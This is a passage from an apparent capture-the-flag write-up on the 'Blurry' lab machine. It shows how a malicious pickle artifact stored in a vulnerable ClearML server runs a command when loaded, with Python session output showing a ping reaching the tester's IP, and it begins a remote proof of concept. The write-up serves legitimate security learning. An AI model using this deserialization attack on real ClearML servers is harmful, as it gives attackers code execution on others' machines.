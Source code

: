 And it shows up on Blurry:

[![image-20240610111816357](/img/image-20240610111816357.png)*Click for full size image*](/img/image-20240610111816357.png)

### Run Locally

I’ll open a Python terminal and use lines from the recurring task to try it locally. Because I’m running the vulnerable version of ClearML, it should ping if it works. I’ll find my task:

```

(venv) oxdf@hacky$ python
Python 3.11.9 (main, Apr  6 2024, 17:59:24) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from clearml import Task
>>> task = Task.get_task(project_name='Black Swan', task_name="0xdfping", allow_archived=False)
>>> task
<clearml.task.Task object at 0x7f88f0564410>

```

The artifact is there:

```

>>> task.artifacts
{'sploit': {'name': 'sploit', 'size': 58, 'type': 'pickle', 'mode': <ArtifactModeEnum.output: 'output'>, 'url': 'http://files.blurry.htb/Black%20Swan/0xdfping.544ec1b3e78543359991dfc4fe5135a5/artifacts/sploit/sploit.pkl', 'hash': '9b127487b99ba55ae7223961ea443c2cc592110f5b48e90bec325662ba4298e5', 'timestamp': datetime.datetime(2024, 6, 13, 13, 29, 36), 'metadata': {}, 'preview': '<__main__.RunCommand object at 0x7f7008a24150>'}}

```

I’ll get the object:

```

>>> obj = task.artifacts['sploit']
>>> data = obj.get()
PING 10.10.14.6 (10.10.14.6) 56(84) bytes of data.
64 bytes from 10.10.14.6: icmp_seq=1 ttl=64 time=0.047 ms
--- 10.10.14.6 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.047/0.047/0.047/0.000 ms
>>> data
0

```

There’s a `ping` executed in there!

### Remote POC

To get the artifact downloaded on Blurry, I’ll need to tag the task with “review”. This can be done manually in the web UI:
